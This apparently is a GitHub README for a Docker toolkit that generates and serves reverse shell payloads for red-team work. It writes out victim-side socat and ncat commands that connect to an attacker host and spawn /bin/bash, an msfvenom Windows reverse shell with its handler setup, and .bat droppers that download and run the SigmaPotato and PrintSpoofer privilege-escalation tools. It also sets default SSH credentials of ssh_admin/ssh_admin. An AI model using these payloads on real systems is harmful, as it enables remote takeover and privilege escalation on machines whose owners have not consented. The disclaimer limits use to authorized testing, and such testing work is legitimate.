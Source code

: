 # 🐚 Docker Reverse Shell Toolkit

![Docker Logo](https://www.docker.com/wp-content/uploads/2022/03/horizontal-logo-monochromatic-white.png)

This project provides a **simple and modular Bash-based Reverse Shell Docker container** for penetration testing and red team simulations. It allows you to spawn reverse shells with ease and minimal setup. Output and logs are mounted to host for easy access.

---

## ✨ Features

- 🧾 Auto-generated `.bat` droppers with runtime IP/Port injection
- 🌐 Web UI for live payload generation (`payload_generator.html`)
- ⚙️ CLI-based dynamic reverse shell generator with output log
- 🔐 HTTPS server using NGINX with self-signed TLS
- 🧪 Payloads for:
  - PowerShell (encoded)
  - SigmaPotato
  - PrintSpoofer
  - ncat / socat / msfvenom
- 📦 Docker Volumes for logs and payloads
- 🔐 SSH access (user: `ssh_admin`, pass: `ssh_admin`, port: `2222`)

---

## 🧱 Build the Docker Image

```bash
docker build -t reverse-shell .
```

---

## 🧪 Run the Container

```bash
docker run -it --rm \
  -v $(pwd)/logs:/app/logs \
  -v $(pwd)/www:/usr/share/nginx/html \
  -p 443:443 -p 4444:4444 -p 5555:5555 -p 2222:2222 \
  reverse-shell
```

---

## 🔐 Access Details

| Service        | Access Info                                     |
|----------------|-------------------------------------------------|
| HTTPS Payloads | https://<your_ip>/                              |
| Web Generator  | https://<your_ip>/payload_generator.html        |
| SSH Access     | ssh ssh_admin@<your_ip> -p 2222 (pw: ssh_admin) |

---

## 🧾 Payload Generator (Web UI)

📍 Visit:  
```
https://<your_ip>/payload_generator.html
```

📥 Input your IP and Port.  
🔐 It dynamically shows:

- Base64-encoded PowerShell
- SigmaPotato
- PrintSpoofer

---

## 🔧 CLI-Based Generator

When the container starts, it will prompt you for:

- Your Attacker IP
- Your Listening Port

This will:

- Generate encoded PowerShell payloads
- Output payloads to `/usr/share/nginx/html/reverse_payloads.txt`
- Print to screen

---

## 🧷 Auto-Generated `.bat` Files

These are served from the container's `/usr/share/nginx/html`:

- `auto_sigma_https.bat`  
  ➤ Downloads and executes SigmaPotato over HTTPS

- `auto_printspoofer_https.bat`  
  ➤ Downloads PrintSpoofer and injects encoded PowerShell

Update IP and Port inside `.bat` manually or regenerate with the CLI.

---

## 🧬 Additional Payload Examples

### 🔹 Socat (encrypted shell)

**Attacker:**
```bash
socat openssl-listen:4444,reuseaddr,fork,cert=cert.pem,key=key.pem,verify=0 -
```

**Victim:**
```bash
socat openssl:attacker_ip:4444,verify=0 exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

---

### 🔹 Ncat (SSL reverse shell)

**Attacker:**
```bash
ncat -lvnp 5555 --ssl
```

**Victim:**
```bash
ncat --ssl attacker_ip 5555 -e /bin/bash
```

---

### 🔹 MSFVenom Payload

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<your_ip> LPORT=4444 -f exe > www/rev_shell.exe
```

**Start Listener:**
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/shell_reverse_tcp
set LHOST <your_ip>
set LPORT 4444
run
```

---

## 🔐 HTTPS Support (NGINX)

Built-in HTTPS support using NGINX and a self-signed cert:

- Mounted at: `/etc/nginx/cert.pem` and `/etc/nginx/key.pem`
- Default TLS port: `443`
- Hosts everything in `/usr/share/nginx/html`

---

## 🗂 Docker Volumes

| Host Folder | Container Mount Path         | Purpose               |
|-------------|------------------------------|------------------------|
| `./logs`    | `/app/logs`                  | Output logs            |
| `./www`     | `/usr/share/nginx/html`      | Web payload hosting    |

---

## ⚠️ Legal Disclaimer

> This toolkit is intended **for authorized testing only**.  
> Unauthorized use is illegal and unethical.  
> Always get written permission before testing any system you do not own.

---
